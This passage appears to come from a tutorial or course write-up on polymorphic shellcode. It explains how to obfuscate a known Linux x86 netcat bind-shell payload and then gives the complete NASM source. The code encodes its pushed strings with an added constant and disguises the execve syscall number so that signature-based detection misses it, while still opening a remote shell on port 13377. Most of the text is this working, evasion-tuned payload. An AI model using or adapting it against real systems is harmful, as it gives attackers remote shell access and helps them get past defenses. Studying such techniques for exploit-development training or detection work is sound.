 It seems there are several ways we can morph this shellcode.  First, we should obfuscate all those push commands, since they contain the string we intend to execute.  We can do this by saving each string in a register first, adding a constant to it, then pushing it to the stack.  To save space, we'll use the first push command as the constant.  The next piece we should obfuscate is the **execve** syscall, since that could be seen as suspicious.  Below is the resulting shellcode:

```nasm
; netcat_bind_shell.nasm
;  - Listen on port 13377 using netcat and provide shell
;
; [LINK] http://shell-storm.org/shellcode/files/shellcode-804.php

    global _start

section .text
_start:

        xor eax,eax
        mov edi, 0x37373333
        push edi
        mov esi, 0x68a7a960     ; 0x3170762d
        sub esi, edi            ; ...
        push esi                ; ...
        mov edx, esp
        push eax
        mov esi, 0x313bfc3b     ; push 0x68732f6e
        add esi, edi            ; ...
        push esi                ; ...
        mov esi, 0x322afc32     ; push 0x69622f65
        add esi, edi            ; ...
        push esi                ; ...
        mov esi, 0x3f3f38fa     ; push 0x76766c2d
        add esi, edi            ; ...
        push esi                ; ...
        mov ecx,esp
        push eax
        mov esi, 0x2c36fbfc     ; push 0x636e2f2f
        add esi, edi            ; ...
        push esi                ; ...
        mov esi, 0x66666262     ; push 0x2f2f2f2f
        sub esi, edi            ; ...
        push esi                ; ...
        mov esi, 0x37322efc     ; 0x6e69622f
        add esi, edi            ; ...
        push esi                ; ...
        mov ebx, esp
        push eax
        push edx
        push ecx
        push ebx
        xor edx,edx
        mov  ecx,esp
        mov al,10               ; mov al, 11
        inc eax                 ; ...
        int 0x80
```
